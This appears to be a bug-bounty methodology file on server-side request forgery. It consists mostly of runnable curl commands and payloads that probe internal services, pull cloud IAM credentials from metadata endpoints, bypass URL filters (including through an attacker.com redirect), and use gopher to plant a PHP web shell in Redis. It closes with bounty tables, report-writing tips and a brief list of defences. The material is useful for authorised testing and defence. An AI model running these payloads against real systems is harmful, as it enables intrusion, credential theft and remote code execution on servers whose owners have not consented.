

# SSRF — Server-Side Request Forgery

## When to Use
- When testing features that fetch URLs (image upload via URL, link previews, webhooks)
- When PDF/document generators accept external resources
- When testing import functionality (CSV from URL, RSS feeds)
- When the application proxies requests or integrates with external services
- When testing cloud-hosted applications for metadata endpoint access

## Prerequisites
- Burp Suite with Collaborator or Interactsh for blind SSRF detection
- Knowledge of target's cloud provider (AWS/GCP/Azure) for metadata attacks
- `curl` for manual testing
- SSRFMap for automated exploitation

## Workflow

### Phase 1: Identify SSRF Entry Points

```bash
# Common SSRF-vulnerable features:
# - Image/file upload via URL
# - Webhook configurations
# - PDF/HTML renderers (wkhtmltopdf, puppeteer)
# - Link preview / URL unfurling
# - RSS/Atom feed parsers
# - Import from URL functionality
# - OAuth callback URLs
# - Server-side includes

# Test with Burp Collaborator / Interactsh
# Replace any URL parameter with your callback server:
curl "https://target.com/api/fetch?url=https://YOUR-COLLAB-ID.oastify.com"
curl "https://target.com/api/preview?link=https://YOUR-COLLAB-ID.oastify.com"

# Check for blind SSRF (no response returned but request is made)
# Use interactsh for OOB detection:
interactsh-client -v
# Use the generated domain as SSRF target
```

### Phase 2: Internal Network Access

```bash
# Test access to internal services
# Localhost
curl "https://target.com/fetch?url=http://127.0.0.1:80"
curl "https://target.com/fetch?url=http://localhost:8080"
curl "https://target.com/fetch?url=http://0.0.0.0:80"
curl "https://target.com/fetch?url=http://[::1]:80"

# Internal network ranges
curl "https://target.com/fetch?url=http://10.0.0.1"
curl "https://target.com/fetch?url=http://172.16.0.1"
curl "https://target.com/fetch?url=http://192.168.1.1"

# Common internal services
curl "https://target.com/fetch?url=http://127.0.0.1:6379"     # Redis
curl "https://target.com/fetch?url=http://127.0.0.1:9200"     # Elasticsearch
curl "https://target.com/fetch?url=http://127.0.0.1:8500"     # Consul
curl "https://target.com/fetch?url=http://127.0.0.1:2379"     # etcd
curl "https://target.com/fetch?url=http://127.0.0.1:27017"    # MongoDB
```

### Phase 3: Cloud Metadata Exploitation (Critical Impact)

```bash
# AWS IMDSv1 — Instance Metadata Service
curl "https://target.com/fetch?url=http://169.254.169.254/latest/meta-data/"
curl "https://target.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# Get the role name, then:
curl "https://target.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME"
# Returns: AccessKeyId, SecretAccessKey, Token → Full AWS access

# AWS IMDSv2 (requires token — harder but sometimes bypassable)
# Step 1: Get token
curl "https://target.com/fetch?url=http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" -X PUT
# Step 2: Use token to access metadata

# GCP Metadata
curl "https://target.com/fetch?url=http://metadata.google.internal/computeMetadata/v1/" \
  -H "Metadata-Flavor: Google"
curl "https://target.com/fetch?url=http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token"

# Azure Metadata
curl "https://target.com/fetch?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01" \
  -H "Metadata: true"
curl "https://target.com/fetch?url=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# DigitalOcean
curl "https://target.com/fetch?url=http://169.254.169.254/metadata/v1/"
```

### Phase 4: Bypass Filters

```bash
# IP address obfuscation
http://0x7f000001        # Hex IP for 127.0.0.1
http://2130706433        # Decimal IP for 127.0.0.1
http://017700000001      # Octal IP
http://127.1             # Short form
http://127.0.0.1.nip.io  # DNS rebinding service

# URL encoding
http://127.0.0.1/%2f     # URL-encoded slash
http://127%2e0%2e0%2e1   # URL-encoded dots

# DNS rebinding
# Use a domain that resolves to 127.0.0.1
# rebind.it, nip.io, sslip.io
http://127.0.0.1.nip.io
http://localtest.me

# Protocol smuggling
gopher://127.0.0.1:6379/_SET%20key%20value        # Redis via gopher
dict://127.0.0.1:6379/SET:key:value                # Redis via dict
file:///etc/passwd                                  # Local file read
ftp://127.0.0.1                                     # FTP

# Redirect-based bypass
# Host a redirect: https://attacker.com/redirect → http://169.254.169.254
curl "https://target.com/fetch?url=https://attacker.com/redirect"

# URL parsing confusion
http://evil.com@127.0.0.1                          # Userinfo bypass
http://127.0.0.1#@evil.com                         # Fragment bypass
http://127.0.0.1%00@evil.com                       # Null byte

# Double encoding
http://%31%32%37%2e%30%2e%30%2e%31
```

### Phase 5: Protocol-based Attacks

```bash
# Gopher protocol for Redis RCE
gopher://127.0.0.1:6379/_%2A3%0D%0A%243%0D%0ASET%0D%0A%246%0D%0Ashell%0D%0A%2430%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E%0A%0A%0D%0A

# SMTP via SSRF (send emails from internal mail server)
gopher://127.0.0.1:25/_MAIL%20FROM%3A%3Cattacker%40evil.com%3E%0ARCPT%20TO%3A%3Cvictim%40target.com%3E%0ADATA%0ASubject%3A%20SSRF%20Test%0A%0ASSRF%20Exploitation%0A.

# Use SSRFMap for automated exploitation
python3 ssrfmap.py -r request.txt -p url -m readfiles
python3 ssrfmap.py -r request.txt -p url -m portscan
python3 ssrfmap.py -r request.txt -p url -m networkscan
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection
- **IMDSv2**: Enforce IMDSv2 on all AWS instances (requires PUT request for token)
- **Network segmentation**: Restrict outbound connections from application servers
- **URL validation**: Whitelist allowed domains, block private IP ranges and metadata IPs
- **DNS resolution check**: Resolve URLs server-side and validate the IP before connecting
- **WAF rules**: Block requests containing `169.254.169.254`, `metadata.google.internal`

## Key Concepts
| Concept | Description |
|---------|-------------|
| Blind SSRF | Server makes the request but doesn't return the response to the user |
| IMDS | Instance Metadata Service — cloud provider API accessible from within instances |
| DNS rebinding | Tricking DNS resolution to resolve to internal IPs after initial validation |
| Gopher protocol | Legacy protocol that allows crafting arbitrary TCP data streams |
| TOCTOU bypass | Time-of-check vs time-of-use race condition in URL validation |

## Output Format
```
SSRF Vulnerability Report
=========================
Title: SSRF via Webhook URL Leading to AWS Credential Theft
Severity: CRITICAL (CVSS 9.8)
Endpoint: POST /api/webhooks/create
Parameter: callback_url

Steps to Reproduce:
1. Create webhook with URL: http://169.254.169.254/latest/meta-data/iam/security-credentials/
2. Trigger webhook → response reveals IAM role name: "prod-webapp-role"
3. Set URL to: http://169.254.169.254/latest/meta-data/iam/security-credentials/prod-webapp-role
4. Response contains: AccessKeyId, SecretAccessKey, SessionToken
5. Use credentials with AWS CLI: aws s3 ls → full S3 access confirmed

Impact:
- Full AWS account compromise via stolen IAM credentials
- Access to S3 buckets, databases, and all cloud resources
- Potential pivot to other AWS services and accounts
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (SSRF)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **HackerOne** | $25,000 | (Undisclosed) | Critical SSRF in PDF generation → AWS metadata → temp IAM creds | 2023 |
| **Lark Technologies** | $5,000 | (Undisclosed) | Full-read SSRF via Docs import-as-docs feature | 2024 |
| **Apache (IBB)** | $4,920 | (Undisclosed) | CVE-2024-38472: SSRF on Windows leaking NTLM hashes | 2024 |
| **U.S. Dept of Defense** | $4,000 | (Undisclosed) | SSRF in FAST PDF generator → internal network access | 2024 |
| **Slack** | $4,000 | (Undisclosed) | SSRF via Office file thumbnail generation | 2024 |
| **HackerOne** | $1,250 | (Undisclosed) | SSRF in webhook functionality — IPv6→IPv4 anti-SSRF bypass | 2024 |
| **GitHub Enterprise** | (Disclosed) | Orange Tsai | SSRF→RCE chain on GitHub Enterprise Server | 2023 |

**Key Lesson**: The HackerOne $25,000 SSRF proves PDF generators are gold mines. Any feature
that fetches URLs server-side (webhooks, image imports, link previews, PDF renderers) is an 
SSRF target. Orange Tsai's GitHub chain shows SSRF→RCE is the ultimate escalation path.

**What got $25K vs $1.25K:**
- $25K: SSRF accessed AWS metadata, extracted real IAM credentials → cloud compromise
- $1.25K: SSRF confirmed via IPv6 bypass but no demonstrated data access
- **Lesson: Always escalate SSRF to cloud metadata theft or internal service access**

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP: [SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- AWS: [IMDSv2 Documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html)
- PortSwigger: [SSRF Labs](https://portswigger.net/web-security/ssrf)
